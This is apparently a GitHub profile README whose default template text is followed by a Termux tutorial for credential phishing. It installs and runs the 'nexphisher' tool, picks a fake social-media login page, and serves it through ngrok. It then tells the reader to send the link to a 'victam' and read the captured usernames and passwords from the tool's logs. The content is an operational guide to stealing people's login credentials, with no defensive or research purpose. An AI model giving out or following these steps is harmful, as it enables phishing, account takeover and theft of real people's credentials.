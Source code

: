 - 👋 Hi, I’m @karan
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!-karan/Karan is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
pkg upgrade

$ apt install python -y

$ apt install python2 -y

$ apt install git -y

$ apt install openssh

$ git clone https://github.com/htr-tech/nexphisher

$ ls

$ cd nexphisher

$ ls

$ chmod +x nexphisher

$ ls

$ bash setup

$ bash nexphisher
🛑 You can see nexphisher tool opened
📍Choose option:- select your social media site

📍Choose option:- select your phishing page

🚨 TRUN ON YOUR MOBILE HOTSPOT FIRST

📍 Choose option:- select "2" (ngrok)

Now send Ngrok link your victam
🛑 Wait for victam login

Now you can see easily username & password are showing in your termux.
username & password are saved in termux this path (/data/data/com.termux/files/home/nexphisher/logs)
🛑 If you want to see username password again then

📌Type command setp by step

$ cd

$ ls

$ cd nexphisher

$ ls

$ cd logs

$ ls

$ cat (your file name)

Username:- ...................

Pass:-.................
